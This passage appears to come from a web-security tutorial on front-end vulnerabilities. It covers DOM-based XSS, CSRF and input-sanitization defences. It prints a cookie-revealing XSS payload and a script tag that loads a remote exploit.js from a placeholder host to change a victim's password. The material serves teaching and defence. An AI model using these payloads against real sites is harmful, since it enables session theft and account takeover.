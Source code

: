 We can try to inject the following DOM XSS JavaScript code as a payload, which should show us the cookie value for the current user:
```
#"><img src=/ onerror=alert(document.cookie)>
```
Once we input our payload and hit ok, we see that an alert window pops up with the cookie value in it:
<img width="809" height="113" alt="image" src="https://github.com/user-attachments/assets/c261225a-f8c7-463d-8a92-6747e575645b" />

This payload is accessing the HTML document tree and retrieving the cookie object's value. When the browser processes our input, it will be considered a new DOM, and our JavaScript will be executed, displaying the cookie value back to us in a popup.

An attacker can leverage this to steal cookie sessions and send them to themselves and attempt to use the cookie value to authenticate to the victim's account.

# Cross-Site Request Forgery (CSRF)
The third type of front end vulnerability that is caused by unfiltered user input is Cross-Site Request Forgery (CSRF). CSRF attacks may utilize XSS vulnerabilities to perform certain queries, and API calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user.

A common CSRF attack to gain higher privileged access to a web application is to craft a JavaScript payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the JavaScript CSRF payload), the JavaScript code would execute automatically. It would use the victim's logged-in session to change their password.

CSRF can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application).

Following this example, instead of using JavaScript code that would return the session cookie, we would load a remote .js (JavaScript) file, as follows:

```
"><script src=//www.example.com/exploit.js></script>
```

The exploit.js file would contain the malicious JavaScript code that changes the user's password. Developing the exploit.js in this case requires knowledge of this web application's password changing procedure and APIs.

### Prevention
It is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:

|Type|	Description|
|:-:|:-:|
|Sanitization|	Removing special characters and non-standard characters from user input before displaying it or storing it.
|Validation|	Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)
